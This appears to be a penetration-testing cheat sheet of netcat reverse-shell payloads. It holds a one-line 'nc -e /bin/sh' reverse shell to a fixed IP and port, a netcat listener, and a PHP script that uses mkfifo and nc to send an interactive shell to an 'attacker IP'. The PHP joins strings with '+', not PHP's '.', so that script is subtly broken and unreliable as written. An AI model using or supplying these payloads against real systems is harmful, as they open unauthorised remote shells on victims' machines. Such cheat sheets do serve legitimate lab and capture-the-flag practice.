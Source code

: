 # Netcat

## Generic reverse shell
nc 10.10.14.36 4444 -e /bin/sh

## Listener
nc -lnvp 4444

## PHP mkfifo reverse shell
```php
<?php
    // Attacker IP
    $lhost = '10.0.0.1';
    // Attacker port
    $lport = '4444';
    // Directory on victim to mkfifo netcat
    $rdir = '/tmp/f';
    echo 'Running';
    // Payload
    system('rm '+$rdir+';mkfifo '+$rdir+';cat '+$rdir+'|/bin/sh -i 2>&1|nc '+$lhost+' '+$lport+' >'+$rdir+'');
    echo ' ... Done'; 
?>
```
